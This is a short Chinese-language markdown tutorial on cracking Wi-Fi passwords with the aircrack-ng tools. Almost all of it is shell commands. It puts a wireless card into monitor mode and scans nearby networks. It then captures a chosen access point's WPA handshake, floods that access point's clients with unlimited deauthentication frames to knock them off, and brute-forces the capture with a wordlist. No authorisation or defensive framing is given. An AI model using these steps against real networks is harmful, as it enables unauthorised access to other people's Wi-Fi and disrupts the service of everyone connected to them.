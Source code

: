 # wifi破解

* 洪水攻击

   ```bash
   aireplay-ng -0 0 -a mac_addr wlan9mon
   ```


## 逐步详解：

1. 先尝试打开无线监听模式：

```bash
airmon-ng start wlan0
```

2. 按照提示，先检查关闭网卡

```bash
airmon-ng check kill
```

3. 重复动作1，然后开启监听模式

```bash
ifconfig
iwconfig -a
```

4. 开始监听附近的无线网络

```bash
airodump-ng wlan0mon
```

5. 记录下需要破解的Wi-Fi BSSID，以及所处在的信道
6. 开始抓包，抓主wifi的握手包

```bash
airodump-ng -c 9 --bssid B4:0F:3B:34:1F:01 -w /root/Desktop/wifiCracker wlan0mon
# 其中:
#-c 为所在信道
#-bssid 为目标ap的mac地址
```

7. 此时如果不想等待，可以对ap进行攻击，使用命令：

```bash
aireplay-ng -0 0 -a mac_addr wlan9mon
```

8. 再完成抓包后，使用命令进行破解：

```bash
aircrack-ng -w top10W.txt -b F4:83:CD:CD:9F:7A /root/Desktop/wifiCracker/*.cap
```

